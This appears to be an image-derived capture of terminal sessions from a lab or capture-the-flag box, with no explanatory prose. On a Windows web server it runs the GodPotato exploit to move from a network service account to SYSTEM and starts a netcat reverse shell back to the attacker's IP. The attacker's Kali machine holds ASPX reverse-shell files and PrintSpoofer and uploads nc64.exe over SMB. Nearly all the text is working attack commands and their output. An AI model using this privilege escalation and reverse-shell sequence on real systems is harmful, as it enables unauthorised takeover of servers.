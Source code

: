 ```css
C:\inetpub\wwwroot>nc
nc
"nc" no se reconoce como un comando interno o externo,
programa o archivo por lotes ejecutable.

C:\inetpub\wwwroot>GodPotato-NET4.exe -cmd "nc64.exe 172.20.10.8 4321 -e c:\windows\system32\cmd.exe "
GodPotato-NET4.exe -cmd "nc64.exe 172.20.10.8 4321 -e c:\windows\system32\cmd.exe "
[*] CombaseModule: 0x140709567922176
[*] DispatchTable: 0x140709570239728
[*] UseProtseqFunction: 0x140709569615008
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\d9d49022-4453-4c02-b68c-5274c4ceddc0\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004802-06e4-ffff-a61f-8556657d2194
[*] DCOM obj OXID: 0xe491845c67a1f886
[*] DCOM obj OID: 0x3ddde56b1833d4e9
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\Servicio de red
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 764 Token:0x860  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1048
```

```css
┌──(kali💀kali)-[~/temp/Simple]
└─$ ls
20231008.log        GodPotato-NET2.exe  hello.aspx         printspoofer-master  reverse.aspx  user.txt
aspx-reverse-shell  GodPotato-NET4.exe  nc.exe-master.zip  reverse.asp          shell.aspx

┌──(kali💀kali)-[~/temp/Simple]
└─$ unzip nc.exe-master.zip      

┌──(kali💀kali)-[~/temp/Simple]
└─$ ls
20231008.log        GodPotato-NET2.exe  hello.aspx     nc.exe-master.zip    reverse.asp   shell.aspx
aspx-reverse-shell  GodPotato-NET4.exe  nc.exe-master  printspoofer-master  reverse.aspx  user.txt

┌──(kali💀kali)-[~/temp/Simple]
└─$ cd nc.exe-master 

┌──(kali💀kali)-[~/temp/Simple/nc.exe-master]
└─$ ls
doexec.c  generic.h  getopt.c  getopt.h  hobbit.txt  license.txt  Makefile  nc64.exe  nc.exe  netcat.c  readme.txt

┌──(kali💀kali)-[~/temp/Simple/nc.exe-master]
└─$ smbclient //172.20.10.4/WEB -U marcos 
Password for [WORKGROUP\marcos]:
Try "help" to get a list of possible commands.
smb: \> put nc64.exe
```
